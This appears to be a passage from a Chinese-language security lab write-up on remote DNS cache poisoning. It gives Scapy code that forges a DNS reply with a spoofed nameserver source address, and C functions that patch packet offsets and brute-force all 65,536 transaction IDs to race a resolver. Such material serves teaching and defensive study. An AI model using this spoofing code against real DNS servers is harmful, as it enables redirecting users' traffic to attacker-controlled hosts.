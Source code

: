```python
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0, qd=Qdsec, an=Anssec, ns=NSsec)   
ip = IP(dst='10.9.0.53', src='199.43.135.53')
udp = UDP(dport=33333, sport=53, chksum=0)
reply = ip/udp/dns

with open('ip_resp.bin','wb') as f:
    f.write(bytes(reply))
```

`python3 task4_resp.py`生成`ip_resp.bin`，用二进制编辑器打开文件，查看域名的偏移分别是`0x29`和`0x40`，即41和64（因为在query和answer字段都有，所以有两处要修改）。transaction ID在固定的位置，偏移是28。

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012337546.png" alt="image-20220609142103208" style="zoom: 67%;" />

### `attack.c`

将模板加载到C程序`attack.c`中，并找到`qname`和`id`两个字段的偏移，对它们进行更改，然后发送数据包。

`send_dns_request()`，只需要修改一处qname字段，修改后调用`send_raw_packet`发包：

```c
// Use for sending DNS request.
// Add arguments to the function definition if needed.

void send_dns_request(char *ip_req, int pkt_size, char *name)
{
  // Modify the name in the question field (offset=41)
  memcpy(ip_req + 41, name, 5);
  send_raw_packet(ip_req, pkt_size);
}
```

`send_dns_response()`，需要修改三处：

- question section中的qname
- answer section中的qname
- transaction ID，transaction ID只有16位，所以写0-65535的循环遍历

```c
// Use for sending forged DNS response.
// Add arguments to the function definition if needed.

void send_dns_response(char *ip_resp, int pkt_size, char *name)
{
  // Modify the name in the question field (offset=41)
  memcpy(ip_resp + 41, name, 5);
  // Modify the name in the answer field (offset=64)
  memcpy(ip_resp + 64, name, 5);

  // Modify the transaction ID field (offset=28)
  unsigned short id;
  for (long i = 0; i < 65536; i++)
  {
    id = htons(i);	// 将一个无符号短整型数值转换为网络字节序，即大端模式(big-endian)
    memcpy(ip_resp + 28, &id, 2);
    send_raw_packet(ip_resp, pkt_size);
  }
}
```
